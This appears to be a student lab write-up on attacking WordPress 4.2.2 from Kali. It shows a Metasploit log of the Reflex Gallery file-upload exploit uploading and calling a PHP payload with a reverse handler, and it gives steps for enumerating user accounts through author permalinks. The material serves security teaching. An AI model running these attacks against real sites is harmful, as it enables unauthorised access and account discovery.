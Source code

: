           [-] Exploit failed: One or more options failed to validate: RHOSTS.
          [*] Exploit completed, but no session was created.
          msf6 exploit(unix/webapp/wp_reflexgallery_file_upload) > set RHOSTS kali
          RHOSTS => kali
          msf6 exploit(unix/webapp/wp_reflexgallery_file_upload) > exploit

          [!] You are binding to a loopback address by setting LHOST to ::1. Did you want ReverseListenerBindAddress?
          [*] Started reverse TCP handler on ::1:8080 
          [+] Our payload is at: ZhvOTbvx.php. Calling payload...
          [*] Calling payload...
          [!] This exploit may require manual cleanup of 'ZhvOTbvx.php' on the target
          [*] Exploit completed, but no session was created.



# Wordpress VS Kali

Exploits :

### 1. (Required) User Account Enumaration
  - [x] Summary: 
    - Vulnerability types: Enumarating Users
    - Tested in version: 4.2.2
    - Fixed in version: Not fixed
  - [x] GIF Walkthrough: [![Image from Gyazo](https://github.com/anushareddy139/Assignment/blob/main/ezgif.com-gif-maker.gif)](https://github.com/anushareddy139/Assignment/blob/main/ezgif.com-gif-maker.gif)
  - [x] Steps to recreate: 
    - Simply log in with different usernames to see whether the user exists. Unfortunately this is also possible through permalinks:
    ```
    http://example.com/author/[insertusernamehere]
    ```
  - [x] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
 